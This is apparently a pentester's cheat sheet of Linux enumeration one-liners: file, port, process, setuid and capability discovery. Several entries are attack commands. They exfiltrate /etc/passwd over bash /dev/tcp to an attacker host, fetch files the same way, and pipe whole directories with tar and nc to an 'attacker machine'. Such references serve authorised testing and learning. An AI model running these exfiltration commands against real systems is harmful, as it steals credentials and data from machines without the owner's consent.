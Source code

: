 # list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

# process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

# find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

# find files belonging to user
```bash
find / -user username 2>/dev/null
```

# find files belonging to group
```bash
find / -group adm 2>/dev/null
```

# find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

# find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

# get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

# get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

# find all git repositories
```bash
find / -name .git 2>/dev/null
```

# get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

# download files with just bash 
```bash
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
On attacker machine, `nc -lvnp $LPORT < filename`
# exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

# find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```

# copy entire directory to attacker machine quickly by piping tar
attacker
```bash
## attacker
nc -lvnp 1337 | tar -xf -
## target
tar -cf - . | nc $LHOST 1337
```

# get capabilities of all files recursively
```bash
getcap -r / 2>/dev/null
```

# list systemd timers
```bash
systemctl list-timers
```

# check if users can see other users' processes
the proc pseudo file system will be mounted with `hidepid=2`.
the `gid` option specifies a group id that can read all processes.
```bash
mount | grep hidepid
```
